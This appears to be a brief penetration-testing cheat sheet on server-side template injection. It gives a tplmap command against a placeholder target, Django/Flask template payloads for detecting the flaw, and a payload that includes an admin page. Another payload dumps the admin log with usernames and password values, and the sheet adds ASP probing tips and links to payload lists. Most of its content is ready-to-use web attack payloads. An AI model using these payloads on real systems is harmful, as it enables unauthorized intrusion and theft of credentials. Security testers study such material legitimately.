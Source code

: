 # SSTI

## Tools

```
# https://github.com/epinna/tplmap
tplmap.py -u 'http://www.target.com/page?name=John'
```

## Python Django/Flask

Detection:
```
{% if 'str' = 'str' %} vuln {% endif %}
{% debug %}
```

Disclose pages:
```
{% include 'admin/base.html' %}
```

Disclose log table:
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## ASP/APS.NET/ASPX

- % is a key character
- If ```<%``` returns 500, try ```<%= 7*7 %>```

## Tips

Try to SSTI with the fuzz string provided in cobalt.io blog post refered below


| URL | Description |
|---|---|
| https://github.com/DiogoMRSilva/websitesVulnerableToSSTI | Engines vulnerable to SSTI |
| https://github.com/payloadbox/ssti-payloads | Payloads |
| https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti | Blog about SSTI |
